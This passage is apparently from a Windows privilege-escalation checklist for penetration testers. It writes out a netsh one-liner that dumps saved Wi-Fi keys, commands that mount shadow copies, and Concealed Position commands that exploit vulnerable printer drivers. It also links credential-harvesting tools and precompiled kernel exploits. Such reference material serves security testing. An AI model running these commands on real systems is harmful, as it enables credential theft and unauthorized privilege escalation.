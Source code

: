 - [ ] Wifi passwords: Oneliner method to extract wifi passwords from all the access point.`cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on`
- [ ] Search for passwords stored in services / saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
### Abusing Services
- [ ] Unquoted Service Path
- [ ] Modify binary path
- [ ] Service Binary Hijack
- [ ] Modify scheduled task
- [ ] Modify autorun/startup program
- [ ] DLL hijacking

### Abusing AD rights
- [ ] GPO modification
- [ ] Adding member to a privilege group

### Kernel Exploits
- [ ] Look for kernel exploits using winpeas, watson, etc.
```
- windows-exploit-suggester
- windowsExploits - github repo with precompiled known kernel exploits
- secwiki - Windows Exploits - Another github with precompiled exploits [https://github.com/SecWiki/windows-kernel-exploits] 
```
### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

```
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

# List shadow copies using diskshadow
diskshadow list shadows all

# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
### Bring Your Own Vulnerability

Concealed Position : https://github.com/jacob-baines/concealed_position

- ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
- RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
- POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
- SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE

```
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```
